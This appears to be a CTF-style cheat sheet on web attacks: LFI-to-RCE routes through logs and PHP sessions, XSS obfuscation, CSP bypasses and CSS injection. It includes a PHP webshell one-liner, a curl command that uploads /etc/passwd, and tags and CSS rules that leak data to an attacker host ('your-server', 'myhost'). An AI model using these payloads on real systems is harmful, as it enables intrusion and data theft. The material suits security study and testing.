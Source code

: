 * LFI to RCE
    + Using file upload forms/functions
    + Wrappers
    + Files
        + /proc/self/environ
        + /proc/self/fd
    + Log files with controllable input:
        + /var/log/apache2/access.log
        + /var/log/apache2/error.log
        + /var/log/vsftpd.log
        + /var/log/sshd.log
        + /var/log/mail
        + /var/lib/nginx/cache
    + PHPInfo script
    + php sessions
    + Endings:
        + null byte
        + truncation
    + [tmp files with self inclusion](https://dustri.org/b/from-lfi-to-rce-in-php.html)

* common files
    + phpunit.xml.dst (in LAMP)
* webshell using POST files
    ```<? `. /*/*J;` // will execute when there is /tmp/*J file with your POST data```
* [Inject SESSION data](https://blog.orange.tw/2018/10/hitcon-ctf-2018-one-line-php-challenge.html)
    ```curl http://127.0.0.1/ -H 'Cookie: PHPSESSID=iamorange' -F 'PHP_SESSION_UPLOAD_PROGRESS=blahblahblah'  -F 'file=@/etc/passwd'```

#### #XSS:
* encoding in js
    + hex encoding
    + unicode
    + template strings

* string without quotes: `([]+/payload/).substr(1,7)`

* [xss-protector can disable some scripts (i.e. if script is found in url)](https://security.szurek.pl/0ctf-2016-guestbook-1-writeup.html)
* dom clobbering
* gettings httpOnly cookies
    + via phpinfo()
    + TRACE method (old, not working anymore)

* CSP bypass:
    + ```<link rel="prefetch" href="http://your-server/"> ```
    + ```<meta http-equiv="refresh" content="0; url=http://your-server/">```
    + wrong config (no defaults, forms etc)

* DNS rebinding

* [HTML5 stuff](https://html5sec.org)
* CSS injection
    + ```span[value$='1']{content: url('http://myhost/?i')}```
    + [with fonts](https://sekurak.pl/wykradanie-danych-w-swietnym-stylu-czyli-jak-wykorzystac-css-y-do-atakow-na-webaplikacje/)
